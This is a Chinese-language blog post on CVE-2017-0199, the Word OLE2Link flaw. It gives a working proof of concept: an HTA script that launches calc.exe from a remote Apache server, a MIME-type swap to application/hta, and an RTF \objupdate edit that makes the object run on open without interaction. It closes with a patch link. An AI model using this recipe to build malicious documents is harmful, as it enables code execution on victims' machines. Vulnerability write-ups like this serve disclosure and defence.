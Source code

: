 ```yaml
---
layout: post
title: CVE-2017-0199 OFFICE OLE2LINK
categories: [blog ]
tags: [系统安全, ]
description: fireeye最近公布了一个OFFICE 0day，在无需用户交互的情况下，打开word文档就可以通过hta脚本执行任意代码。经过研究发现，此漏洞的成因主要是word在处理内嵌OLE2LINK对象时，通过网络更新对象时没有正确处理的Content-Type所导致的一个逻辑漏洞。
---
```

> CVE-2017-0199：当用户打开包含嵌入式漏洞的文档时，winword.exe会向远程服务器发出HTTP请求，以检索恶意HTA文件，服务器返回的文件时一个带有嵌入式恶意脚本的假RTF文件，winword.exe通过COM对象查找application/hta的文件处理程序，这会导致Microsoft HTA应用程序（mshta.exe）加载并执行恶意脚本


## 利用
首先准备一台apache服务器，web根目录下保存一个1.rtf文件，内容如下：
```vb
test
<script>
var objShell = new ActiveXObject("wscript.shell");
objShell.Run("%SystemRoot%\\system32\\calc.exe");
</script>
```
确保apache配置文件conf/mime.types里面有rtf的content type项:  
    application/rtf       rtf

新建word文档 插入一个对象 由文件创建，输入url 例如 http://192.168.1.117/1.rtf  
选择“链接到文件”  
这时候会生成一个有test文字内嵌对象的文档，这是双击该对象只能以rtf文件方式打开对象，并不能执行hta脚本。因为生成对象的时候选中“链接到文件”，所以当打开对象的时候会去服务器上请求http://192.168.1.117/1.rtf来更新对象内容。

此时在apache配置文件conf/mime.types中把  
        application/rtf                 rtf  
        改为  
        application/hta                 rtf  

重启apache 清楚ie缓存  
再双击对象，此时虽然访问的还是1.rtf文件，但是服务器的Content-type会返回application/hta，而word就以hta脚本的方式打开文件  
这样的poc还是需要用户双击对象进行交互的，那么怎么样才能自动运行对象呢？这里就需要把文件保存成rtf格式：  
用文本编辑器打开刚保存的rtf文件，找到object标签所在的地方：  
        {\object\objautlink\rsltpict  
        改为  
        {\object\objautlink\objupdate\rsltpict  
关键点在于objupdate，这个标签的作用是可以自动更新对象，因此无需用户交互。此时已经可以达到通过hta脚本执行任意代码的目的

下载微软紧急更新补丁：
[https://support.microsoft.com/en-us/help/4014793/title](https://support.microsoft.com/en-us/help/4014793/title)
